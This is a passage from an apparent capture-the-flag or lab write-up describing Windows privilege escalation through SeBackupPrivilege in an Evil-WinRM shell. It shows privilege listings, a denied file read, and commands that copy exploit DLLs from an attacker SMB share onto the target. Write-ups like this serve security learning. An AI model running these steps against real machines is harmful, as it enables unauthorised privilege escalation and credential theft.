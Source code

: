 The shell was successfully obtained.

# PRIVILEGE ESCALATION PATH 1: SEBACKUPPRIVILEGE

```bash
*Evil-WinRM* PS C:\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

The user `svc-printer` possessed the `SeBackupPrivilege`.

This privilege allows reading of all objects on the system, irrespective of their Access Control Lists (`ACL`). This implies access to sensitive files or the extraction of hashes from the registry, which could be exploited in `Pass-The-Hash` attacks.

```bash
*Evil-WinRM* PS C:\Temp> type C:\windows\system32\config\netlogon.dns
Access to the path 'C:\windows\system32\config\netlogon.dns' is denied.
At line:1 char:1
+ type C:\windows\system32\config\netlogon.dns
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\windows\system32\config\netlogon.dns:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Initially, attempting to read the contents of `C:\windows\system32\config\netlogon.dns` was unsuccessful due to permission restrictions.

To overcome this, the `SeBackupPrivilege` needed to be exploited. To do so, the `SeBackupPrivilegeCmdLets.dll` and `SeBackupPrivilegeUtils.dll` from the [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) repository were imported onto the machine.

```bash
*Evil-WinRM* PS C:\Temp> copy \\10.10.16.15\tools\SeBackupPrivilege\SeBackupPrivilegeCmdLets\bin\Debug\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Temp> copy \\10.10.16.15\tools\SeBackupPrivilege\SeBackupPrivilegeCmdLets\bin\Debug\SeBackupPrivilegeUtils.dll
```
